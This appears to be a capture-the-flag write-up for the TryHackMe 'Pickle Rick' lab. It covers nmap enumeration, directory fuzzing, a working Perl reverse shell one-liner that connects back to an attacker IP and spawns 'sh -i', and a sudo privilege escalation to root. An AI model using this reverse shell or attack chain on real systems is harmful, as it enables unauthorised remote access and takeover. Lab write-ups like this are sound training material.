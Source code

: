 ```yaml
---
layout: post
title: 'TryHackMe | Pickle Rick'
permalink: /ctf/thm/pickle-rick/
---
```


# Enumeration
We start a nmap at the IP.
{% highlight mysql %}
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We can do a curl to the webpage and get a user in the html:
{% highlight mysql %}
curl -i http://10.10.253.214/
{% endhighlight %}

We can try a fuzzer to the webpage:
{% highlight mysql %}
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
{% endhighlight %}

# Explotation
We can try to access with ssh but we need the RSA.

We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
{% highlight mysql %}
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
{% endhighlight %}

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
{% highlight mysql %}
> sudo -l
> sudo su
{% endhighlight %}
